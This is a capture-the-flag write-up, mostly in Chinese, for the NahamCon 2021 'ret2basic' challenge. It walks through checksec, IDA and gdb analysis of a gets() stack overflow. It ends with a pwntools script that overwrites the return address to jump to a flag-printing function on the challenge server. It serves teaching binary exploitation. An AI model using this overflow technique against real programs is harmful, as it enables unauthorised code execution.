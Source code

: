 # ret2text NahamCon CTF 2021 ret2basic

> 2021 NahamCon CTF https://ctf.nahamcon.com/   https://ctftime.org/event/1281/tasks/
>
> challenge name: ret2basic
>
> file: `ret2basic`
>
> refer writeup: https://coldfusionx.github.io/posts/ret2basic/    用到了gef which is GDB enhanced features，过程中的操作与我的解法有所不同，同时总结了32bit 64bit系统的区别，就算会做这题了也值得一看
>
> https://ctftime.org/event/1281/tasks/ 其他人的writeup可以在这找，也可以去github直接搜，根据看的几份writeup来看，大部分不会用IDA分析，而我用IDA可能是做reverse题带来的坏猫病

- 这道题与`demo_ROP_ret2text`不能说相似只能说是完全相同
- 属于没有骚操作的常规ROP(ret2text)题目，分值在200左右

解题步骤：

1. 找到可供溢出的危险函数`gets`
2. 计算出`gets`的参数的地址与RBP之间的偏移量，该偏移量+8即为返回地址（64bit为8byte）
3. 找到目标函数win的函数地址，该函数会执行`cat flag.txt`
4. 构造payload为 偏移量 + 8 + win函数地址

# checksec

```bash
$ file ret2basic
ret2basic: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3ca85eae693fed659275c0eed9c313e7f0083b85, for GNU/Linux 4.4.0, not stripped
$ checksec --file=ret2basic
RELRO         STACK CANARY    NX          PIE      RPATH     RUNPATH     Symbols      FORTIFY Fortified    Fortifiable  FILE
Partial RELRO No canary found NX enabled  No PIE   No RPATH  No RUNPATH  59) Symbols    No    0            3            ret2basic
```

- 64bit ELF, No canary



# IDA Analysis

- `main`函数会调用的`vuln`函数：

```assembly
.text:000000000040130F                 public vuln
.text:000000000040130F vuln            proc near               ; CODE XREF: main+9↓p
.text:000000000040130F
.text:000000000040130F var_70          = byte ptr -70h  ; 这里的值就是与RBP的偏移量，没有错。分析错的情况应该与push mov指令的区别、等效有关
.text:000000000040130F
.text:000000000040130F ; __unwind {
.text:000000000040130F                 push    rbp
.text:0000000000401310                 mov     rbp, rsp
.text:0000000000401313                 sub     rsp, 70h
.text:0000000000401317                 lea     rdi, format     ; "Can you overflow this?: "
.text:000000000040131E                 mov     eax, 0
.text:0000000000401323                 call    _printf
.text:0000000000401328                 lea     rax, [rbp+var_70] ; 这里把 gets 的参数地址载入到了rax中，即执行完此句，rax为gets参数地址
.text:000000000040132C                 mov     rdi, rax   ; 故可以把断点下在这个地方，然后看rax与rbp的值，计算偏移量
.text:000000000040132F                 mov     eax, 0
.text:0000000000401334                 call    _gets    ; 危险函数！！！！！！
.text:0000000000401339                 nop
.text:000000000040133A                 leave
.text:000000000040133B                 retn
.text:000000000040133B ; } // starts at 40130F
.text:000000000040133B vuln            endp
```

- 重点关注断点位置

# gdb Analysis

```assembly
$ gdb ret2basic
.........................................................................................
pwndbg> b * 0x000000000040132C
Breakpoint 1 at 0x40132c
pwndbg> r
Starting program: /home/kali/CTF/pwn/ret2basic
Can you overflow this?:
Breakpoint 1, 0x000000000040132c in vuln ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────────[ REGISTERS ]───────────────────────────────────────────
 RAX  0x7fffffffe240 —▸ 0x7ffff7fab980 (_IO_2_1_stdin_) ◂— 0xfbad208b
 RBX  0x0
 RCX  0x0
 RDX  0x0
 RDI  0x7ffff7fae670 (_IO_stdfile_1_lock) ◂— 0x0
 RSI  0x7fffffffbbc0 ◂— 'Can you overflow this?: '
 R8   0x0
 R9   0x18
 R10  0x40205a ◂— 'Can you overflow this?: '
 R11  0x246
 R12  0x401100 (_start) ◂— endbr64
 R13  0x0
 R14  0x0
 R15  0x0
 RBP  0x7fffffffe2b0 —▸ 0x7fffffffe2c0 —▸ 0x401360 (__libc_csu_init) ◂— endbr64
 RSP  0x7fffffffe240 —▸ 0x7ffff7fab980 (_IO_2_1_stdin_) ◂— 0xfbad208b
 RIP  0x40132c (vuln+29) ◂— mov    rdi, rax
───────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────
 ► 0x40132c <vuln+29>    mov    rdi, rax <0x7ffff7fae670>
   0x40132f <vuln+32>    mov    eax, 0
   0x401334 <vuln+37>    call   gets@plt <gets@plt>

   0x401339 <vuln+42>    nop
   0x40133a <vuln+43>    leave
   0x40133b <vuln+44>    ret

   0x40133c <main>       push   rbp
   0x40133d <main+1>     mov    rbp, rsp
   0x401340 <main+4>     mov    eax, 0
   0x401345 <main+9>     call   vuln <vuln>

   0x40134a <main+14>    lea    rdi, [rip + 0xd22]
────────────────────────────────────────────[ STACK ]───────────────────────────────────────────
00:0000│ rax rsp  0x7fffffffe240 —▸ 0x7ffff7fab980 (_IO_2_1_stdin_) ◂— 0xfbad208b
01:0008│          0x7fffffffe248 —▸ 0x7ffff7e63c38 (setbuffer+200) ◂— test   dword ptr [rbx], 0x8000
02:0010│          0x7fffffffe250 ◂— 0x0
03:0018│          0x7fffffffe258 ◂— 0x1
04:0020│          0x7fffffffe260 —▸ 0x7fffffffe280 ◂— 0x2
05:0028│          0x7fffffffe268 ◂— 0x1
06:0030│          0x7fffffffe270 —▸ 0x7fffffffe3b8 —▸ 0x7fffffffe646 ◂— '/home/kali/CTF/pwn/ret2basic'
07:0038│          0x7fffffffe278 —▸ 0x401212 (setup+44) ◂— nop
────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────
 ► f 0           40132c vuln+29
   f 1           40134a main+14
   f 2     7ffff7e13d0a __libc_start_main+234
```

- `0x7fffffffe240 - 0x7fffffffe2b0 = -0x70 ` gets函数的参数到RBP的偏移量

# Exploit

```python
from pwn import *
context.log_level = 'debug'
sh = remote('challenge.nahamcon.com', 30413) 
target = 0x0000000000401215 # win 函数的起始地址，从IDA中分析出来
payload = b'A' * (0x70 + 8) + p64(target)  # 注意这个是64bit ELF，所以 return address and saved registers 都是64bit的
sh.sendline(payload)
sh.interactive()
```

